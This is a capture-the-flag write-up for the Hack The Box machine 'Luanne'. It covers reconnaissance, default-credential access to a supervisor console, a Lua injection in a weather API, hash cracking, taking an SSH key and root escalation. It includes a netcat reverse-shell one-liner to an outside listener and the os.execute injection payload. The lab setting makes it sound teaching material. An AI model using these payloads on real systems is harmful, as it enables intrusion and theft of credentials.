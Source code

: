 # Luanne

## nmap -sC -sV -oA luanne.nmap luanne.htb

[Nmap results][1] The host is a NetBSD server with two http server on port 80 and 9001. Both require authentication to access the pages

The webserver on port 80 has a robot.txt file:

```txt
User-agent: *
Disallow: /weather  #returning 404 but still harvesting cities 
```

## gobuster dir -u "http://luanne.htb/weather" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o luanne-dir.txt 

[dirbuster results][2] found a forecast page 

## Burpsuite

Analizyng requests with burpsuit seems that username and password are sent to server in base64 encoding in "Authorization" header

Searching the internet the default creds for `supervisor medusa` that is listening on port 9001 are ***user:123*** so we can get in the supervisor console.

## supervisor

Here we can see by clicking on processes the process running on the machine:

```

USER         PID %CPU %MEM    VSZ   RSS TTY   STAT STARTED    TIME COMMAND
root           0  0.0  0.2      0 12472 ?     DKl   4:14PM 0:02.96 [system]
root           1  0.0  0.0  19852  1528 ?     Is    4:14PM 0:00.01 init 
root         163  0.0  0.0  32528  2288 ?     Is    4:14PM 0:00.04 /usr/sbin/syslogd -s 
r.michaels   185  0.0  0.0  34996  1984 ?     Is    4:15PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 
nginx        271  0.0  0.1  33936  3316 ?     I     4:15PM 0:22.24 nginx: worker process 
root         298  0.0  0.0  19704  1328 ?     Is    4:14PM 0:00.00 /usr/sbin/powerd 
root         299  0.0  0.0  33368  1828 ?     Is    4:15PM 0:00.00 nginx: master process /usr/pkg/sbin/nginx 
_httpd       336  0.0  0.3 120768 16448 ?     Ss    4:15PM 0:03.86 /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 
root         348  0.0  0.0  71344  2924 ?     Is    4:15PM 0:00.01 /usr/sbin/sshd 
_httpd       376  0.0  0.0  34956  1996 ?     Is    4:15PM 0:02.36 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www 
root         402  0.0  0.0  20216  1656 ?     Is    4:15PM 0:00.03 /usr/sbin/cron 
_httpd     22092  0.0  0.0  21012  1352 ?     O     7:22PM 0:00.00 /usr/bin/egrep ^USER| \\[system\\] *$| init *$| /usr/sbin/sshd *$| /usr/sbin/syslogd -s *$| /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 *$| /usr/sbin/cron *$| /usr/sbin/powerd *$| /usr/libexec/httpd -u -X -s.*$|^root.* login *$| /usr/libexec/getty Pc ttyE.*$| nginx.*process.*$ 
root         421  0.0  0.0  19780  1592 ttyE1 Is+   4:15PM 0:00.00 /usr/libexec/getty Pc ttyE1 
root         388  0.0  0.0  19780  1584 ttyE2 Is+   4:15PM 0:00.00 /usr/libexec/getty Pc ttyE2 
root         433  0.0  0.0  19784  1588 ttyE3 Is+   4:15PM 0:00.00 /usr/libexec/getty Pc ttyE3
```

And we found our possible user `r.michaels` that is running a lua server on port 3000 but it's reacheble only from inside the machine (Possible way to root (?)) 

Now we have a user but we need a password.

## Weather page 

Since we found that in the robot.txt there is a /weather dir and dirbuster found a `forecast` page wi can dig in more details.

`http://luanne.htb/weather/forecast?city=list` give use some city to get weather forecast, trying escaping the url we get a lua error probably is the same server that we saw before in the process list.

Putting a `")` after the city name server responds with ` expected ',' or '}' after property value in object at line 1 column 45` so let's try to inject a reverse shell with burp.

Remember this is a NetBSD distro so the usual reverse shell will not work, instead use:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.175 4242 >/tmp/f`

`;os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.175 4242 >/tmp/f');--`

Once in the shell we find a file `.htpasswd` containing a md5 hash -> `webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0` 

cracking with `hashcat -m 500 hash.txt --user -O rockyou.txt.gz` -> ***webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest***

with this credential we can enter the index.html page.

We can use this credential also to authorize requests for the devel version on port 3001 which is launched with `-U r.michaels` flag that means we can access users files by url: `http://127.0.0.1:3001/~r.michaels`

and trying some dirs we can find the private key for ssh `r.michales` with : `curl --user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa`

## R. Michaels

inside r.michaels home there is a backup directory in which there is an encrypted tar that can be decrypted by using `netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/backup.tar.gz`

Inside the devel backup the `.htpasswd` has a different hash `webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.` cracking again we obtain the password ***webapi_user:littlebear***

Using this password we can get a `ksh` shell as root. 

Note in this machine there no `sudo` but there is `doas`

![htbbadge](https://www.hackthebox.eu/badge/image/272787)

[//]: #links
[1]: nmap/luanne.nmap
[2]: luanne-dir.txt
